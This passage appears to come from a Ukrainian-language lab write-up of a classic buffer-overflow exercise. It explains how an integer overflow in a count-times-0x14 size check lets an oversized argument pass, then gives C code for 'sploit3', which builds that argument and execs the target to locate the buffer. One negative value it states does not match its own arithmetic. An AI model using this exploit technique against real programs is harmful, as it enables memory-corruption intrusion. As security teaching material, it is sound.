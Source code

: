 Це виходить тому що коли помпілятор бере модуль старший модуль і удаляє старший байт, який потрібен для того щоб визначити позитивне та отрицтельне число. Наприклад:

```text
(0xF333371C * 0x14) = 0x1300004E30 =
0b1001100000000000000000100111000110000

(0xF333371C * 0x14) % 0x100000000 = 0x4E30 = 
0b100111000110000
```

Отже старшого байта не буде, ми переповнемо int та число буде позитивне:

```text
0x1300004E30
0x      4E30

0b1001100000000000000000100111000110000
0b                      100111000110000
```

Отже, count повинен бути –2147482647 або 4080219932. Це задовольнить оператор if у foo і дозволить нам переповнити buf.

Напишем sploit3 щоб заповнити буфер target3 та подивитись ардесу buf:

```c
int main(void)
{
    char buf[20004];
    char *count;
    int i;
    int addr;

    count = "999";
    for(i = 0; i < 20005; i++) {
      if(i < strlen(count)) {
        *(buf + i) = count[i];
      } else if(i < (strlen(count) + 1)) {
        *(buf + i) = ',';
      } else if(i < (20000 + strlen(count) + 1)) {
        *(buf + i) = 'a';
      }
    }

    char *args[] = { TARGET, buf, NULL };
    char *env[] = { NULL };

    execve(TARGET, args, env);
    fprintf(stderr, "execve failed.\n");

    return 0;
}
```
